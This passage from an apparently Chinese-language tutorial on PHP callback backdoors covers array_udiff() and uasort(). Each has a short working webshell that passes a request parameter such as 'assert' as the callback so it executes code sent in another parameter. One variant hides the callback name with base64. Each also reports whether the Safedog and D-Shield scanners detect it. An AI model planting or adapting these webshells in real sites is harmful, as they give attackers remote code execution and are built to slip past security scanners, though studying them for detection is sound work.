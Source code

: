 POST 提交如下数据：`e=assert&x=phpinfo();` 但是目前已经无法过狗了。

| 安全狗                        | D盾             |
| :---------------------------- | :-------------- |
| 1 个安全风险 array_reduce执行 | 级别 5 已知后门 |

#### array_udiff()

```php
array_diff(array1,array2,myfunction...);
```

array_diff() 函数返回两个数组的差集数组。该数组包括了所有在被比较的数组中，但是不在任何其他参数数组中的键值。在返回的数组中，键名保持不变。

| 参数       | 描述                                   |
| :--------- | :------------------------------------- |
| *array1*   | 必需。与其他数组进行比较的第一个数组。 |
| *array2*   | 必需。与第一个数组进行比较的数组。     |
| myfunction | 回调对照函数。                         |

```php
<?php
    $e = $_REQUEST['e'];
    $arr = array($_POST['x']);
    $arr2 = array(1);
    array_udiff($arr, $arr2, $e);
?>
```

POST 提交如下数据：`e=assert&x=phpinfo();` 但是目前已经无法过狗。

| 安全狗                       | D盾             |
| :--------------------------- | :-------------- |
| 1 个安全风险 php后门回调木马 | 级别 5 已知后门 |



#### uasort()

```php
uasort(array,myfunction);
```

uasort() 函数使用用户自定义的比较函数对数组排序，并保持索引关联（不为元素分配新的键）。如果成功则返回 TRUE，否则返回 FALSE。该函数主要用于对那些单元顺序很重要的结合数组进行排序。

| 参数         | 描述                                                         |
| :----------- | :----------------------------------------------------------- |
| *array*      | 必需。规定要进行排序的数组。                                 |
| *myfunction* | 可选。定义可调用比较函数的字符串。如果第一个参数小于等于或大于第二个参数，那么比较函数必须返回一个小于等于或大于 0 的整数。 |

```php
<?php
    $e = $_REQUEST['e'];
    $arr = array('test', $_REQUEST['x']);
    uasort($arr, base64_decode($e));
?>
```
